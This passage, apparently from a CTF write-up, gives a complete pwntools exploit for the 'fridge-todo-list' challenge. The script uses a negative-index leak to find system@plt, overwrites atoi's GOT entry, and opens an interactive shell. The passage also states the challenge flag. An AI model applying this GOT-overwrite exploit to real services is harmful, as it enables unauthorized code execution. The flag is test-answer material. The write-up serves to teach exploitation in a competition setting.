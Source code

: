 Putting it all together yields the following exploit:
```python
from pwn import *
import sys
import struct

if __name__ == '__main__':
    p = remote('fridge-todo-list.ctfcompetition.com', 1337)

    p.recv()
    p.recv()

    p.sendline('user')

    p.sendline('2')  # read entry

    # read address of write 0x203020 = 0x203140 - 48 * 6 in section .got.plt
    p.sendline('-6')

    p.recvuntil('TODO: ')
    addr = p.recvuntil('\n\n')[:-2]
    addr = addr.ljust(8, bytes([0]))
    addr = struct.unpack('<Q', addr)[0]

    # this address was not resolved yet so it points back to .plt
    log.info('Address of .plt: %s' % hex(addr - 0x916))

    sys_addr = struct.pack('<Q', addr - 0x916 + 0x940)
    log.info('Address of system@plt: %s' % hex(addr - 0x916 + 0x940))

    p.sendline('3')  # store entry

    # we want to overwrite atoi since it is called all the time and matches
    # the system signature perfectly
    # target address is at 0x203088 = 0x203140 - 48 * 4 + 8
    p.sendline('-4')

    p.send('A' * 8)
    p.send(sys_addr)
    p.send('\n')

    p.recv()

    p.interactive()
```

When navigating the system you will find the correct username of Wintermuted (*CountZero*). Logging in as him or displaying the file directly will yield the correct flag *CTF{goo.gl/cjHknW}*.


<a name="holeybeep"></a>

## HOLEY BEEP (pwn)
